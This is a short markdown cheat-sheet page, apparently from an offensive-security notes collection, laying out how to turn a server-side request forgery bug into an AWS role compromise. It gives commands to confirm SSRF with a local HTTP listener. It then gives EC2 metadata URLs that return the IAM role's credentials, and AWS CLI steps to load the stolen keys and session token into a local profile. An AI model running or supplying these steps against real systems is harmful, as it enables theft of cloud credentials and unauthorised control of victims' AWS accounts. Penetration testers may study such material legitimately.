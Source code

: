 # SSRF To AWS Role compromise

## Enumeration

Load a local server using one of the following commands

```
python -m SimpleHttpServer <port>    #python2
python -m http.server <port>         #python3
```

Use your public IP as the payload, we expect to see a HTTP request in the local server logs. In this case we have confirmed SSRF

If you suspect that a firewall or other network protection systems are blocking the request, you can try to make the application retrieve a well known file from the OS. See the [LFI List page](../../web-attacks/file-upload/lfi-list.md) for a list of common file locations for Linux and Windows.

## Exploit

### Gain control of EC2 role

Check current role

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

Get associated key

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role name>
```

Configure new profile on local machine and gain access to AWS environment

```
 aws configure --profile <profile name> #specfiy access key id, value and region when prompted
 aws configure --profile <profile name> set aws_session_token <role token>
```

Verify credentials

```
aws sts get-caller-identity --profile <profile name>
```
